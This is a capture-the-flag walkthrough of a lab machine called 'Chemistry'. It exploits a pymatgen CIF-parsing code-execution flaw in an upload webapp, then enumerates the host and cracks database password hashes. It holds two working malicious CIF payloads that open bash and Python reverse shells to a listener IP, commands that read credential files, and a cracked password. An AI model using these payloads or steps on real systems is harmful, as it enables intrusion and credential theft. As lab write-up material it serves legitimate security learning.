## Chemistry

# Walkthrough
First we do a nmap scan:  
  
Two ports open:  22 and 5000. Some service is hosted on the port 5000.  
  
Before trying to navigate the webapp, i launched a fuzz scan to look if any subdirectory can be found at that address.  
  
Five findings: login, logout, register, dashboard and upload.  I'll keep that in mind for later.  
  
The webapp seems to host an application to analyze CIF files, some file format used to store and analyze crystallographic informations.  
It's possible to register a new user:  
  
On this page it's possible to upload a new CIF file. The first thing that came up in my mind was the possibility of uploading a reverse shell, but I  need two things:  
1) The possibility of creating one in this CIF file --> I have to analyze how a CIF file is formatted;  
2) The possibility to call the file on the remote server once uploaded;  
  
Fortunately, there is a demo file that can be downloaded on the webapp. I did that and saw the CIF format:  
  
Not too easy.  
For the second point I tried to reupload this file to see how it was stored on the webapp:  
  
And then by clicking on "view":  
  
So a new subdirectory is created at each upload and it is possible to reach it with a GET request.  
The answer to the secont point is then solved, but still it's not clear if it is really possible to upload a reverse shell in this CIF format.  
Before diving into (lots) of web browsing, I tried to see if there is a sanitization of the file uploading. If not, I can simply upload a php web shell saving lots of time.  
  
That was the server's answer.  
I then tried to do the same thing but with Burp in the middle, to analyze the packet exchange and see if something useful pops up.  
As long as I could see, there was nothing useful. The only thing to notice was that to delete a file there is a call to the API */delete_structure/{ID}*. Also probably the files are only stored for one session.   
  
At this point I had to check if there exist the possibility of hide a reverse shell in this type of format.  
I found this repo:  https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f.  
It's possible to hide code inside the CIF file that will allow a remote code execution.  
I copy-pasted the code and hide inside the code to open a bash reverse shell:  
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -i >& /dev/tcp/10.10.14.221/4444 0>&1");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  
There is a problem: with this code, also after putting a netcat shell on listening, I couldn't get a reverse shell.  
Struggled a bit, but then I thought that maybe the remote shell isn't a bash shell. Because this vulnerability is possible because exploits a python module, I tried to do the same, but with a python reverse shell: 
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.11.221",4444)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  

Neither this is working. After (too) many tries I simply discovered that there was a formatting problem in the first exploit tried.  
In the end, i got a reverse shell in bash...  
  
I proceded to upgrade the shell with the classical:  
```python
script /dev/null -c /bin/bash
^Z
stty raw -echo; fg
*and then inputing "screen"*
```  
There is a user called *rosa* with the user flag, but my user (app) can't read it. I have to do some enumeration.  
  
I tried to cat some evergreen files, as /etc/hosts /etc/shadow /etc/passwd, but there is nothing useful. Also, sudo does exist, but i don't know the password yet. 
I found a file called *app.py* with a password (of the Flask app) in cleartext:  
  
Tried to see if that is the sudo password, but unfortunately that is not the case.  
I didn't know the use of the Flask secret key, but i read that *"Secret key is only used to protect user session data in flask, afaik. As in - cookies and whether user is logged in or not, it usually does not protect very sensitive information. And its not generally used to protect any persistent information. Meaning you can just generate this key randomly at startup."*, so it shouldn't be very useful unfortunately.  
But there is a sqlite3 database somewhere. Found it in a directory and analyzed the content:  
  
There I found the user credentials, with the password hashed:  
  
I decrypted the rosa password using john and the wordlist rockyou.txt. The password is **unicorniosrosados**.  
I could login via ssh with the rosa's credentials and was able to get the user flag:  



## Privilege escalation
It could be useful for later, let's keep in mind that other hashes were stored in the user table in the sqlite database (also the admin ones).  
